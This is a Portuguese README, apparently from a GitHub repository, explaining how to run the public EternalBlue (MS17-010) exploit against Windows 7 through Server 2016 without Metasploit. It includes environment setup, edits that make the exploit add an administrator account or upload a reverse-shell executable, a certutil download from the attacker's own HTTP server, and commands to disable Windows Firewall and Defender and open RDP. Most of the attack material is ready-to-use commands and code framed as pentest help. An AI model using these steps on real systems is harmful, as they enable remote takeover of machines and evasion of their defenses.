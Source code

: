 # Exploiting Windows 7, 8.1, 2008 R2, 2012 R2, 2016 R2, 2016 Server etc Com Eternalblue SEM METASPLOIT (MS17-010) (CVE 2017-0144)

Script que explora manualmente a vulnerabilidade MS17-010 (CVE 2017-0144 ) e funciona nos sistemas: Windows 7 / 8.1 / 2008 R2 /2012 R2 / 2016 R2 / 2016 Server

**Exploit tirado do exploit-db - [42315](https://www.exploit-db.com/exploits/42315)**

**Testado no Windows Server 2016 Standard Evaluation 14393**

Criei esse respositório pois quando precisei, tive dificuldade para executar o exploit (baixar depedências) e entender o código, sendo assim decidi criar esse repositório para facilitar o pentest caso alguém se depare com o mesmo problema que eu

## Preparando o ambiente para executar o exploit

Necessário python2 (python2.7) 
```bash
$ sudo apt update
$ sudo apt upgrade
$ sudo apt install python2.7
```
Necessário pip2
```bash
$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py;
$ python2 get-pip.py;
$ rm get-pip.py;
```
Baixando pacotes necessários
```bash
$ pip2 install --upgrade setuptools;
$ pip2 install impacket==0.9.22
```

## Alterações no exploit
A lógica é usar a função **smb_send_file** para enviar um executável de shell reversa, e a função **service_exec** para executar o código. 
Porém devido ao Windows Defender não da para realizar isso diretamente. 

*A função **service_exec** (linha 923) é onde se localiza o comando que será executado como é mostrado abaixo*
*A função **smb_send_file** (linha 922) envia um arquivo local para a máquina alvo*

- Adicionando um usuário e senha (caso não tenha um usuário válido, tente adicionar apenas o USERNAME como guest)
```python
USERNAME = 'guest'
PASSWORD = ''
```

- Alterações para criar um usuário com acesso de Autoridade
```python 
service_exec(conn, r'cmd /c net user pentester Pentester123 /add') # linha - 923
# criando o usuário 'pentester' com a senha 'Pentester123'
```
```python 
service_exec(conn, r'cmd /c net localgroup administrators pentester /add') # linha - 923
# Adicionando o usuário 'pentester' ao grupo de administradores
```
- Alteração para enviar um arquivo local para a máquina alvo
```shell
smb_send_file(smbConn, '/path_to_your_filel/eternal-blue.exe', 'C', '/eternal-blue.exe') # Arquivo é inserido na raiz (c:\) neste exemplo
```
 
Caso você queira tentar ganhar uma shell reversa vou deixar os comandos necessários abaixo

## Executando o Exploit
```bash
$ python2.7 exploit.py <target ip>
```

## PoC

- Na sua máquina execute
```bash
touch test
python3 -m http.server 80
```
- na exploit altera as linhas 922 e 923
```python
#smb_send_file(smbConn, './shell.exe', 'C', '/shell.exe') #922
service_exec(conn, r'cmd /c certutil.exe -urlcache -f http://<your ip>:80/test test') #923
```
- Agora basta executar o exploit
```bash
python2 exploit.py <target ip>
```

## Comandos úteis do Windows para pentest
- Comando para desligar o Firewall do Windows
```shell
netsh advfirewall set currentprofile state off
```
- Comando para desabilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```
- Comando para habilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 0 /f
```

- Comando para habilitar a porta 3389 no firewall
```shell
netsh advfirewall firewall add rule name="rpd" protocol=TCP dir=in localport=3389 action=allow
```
- Comando para habilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
- Comando para desabilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
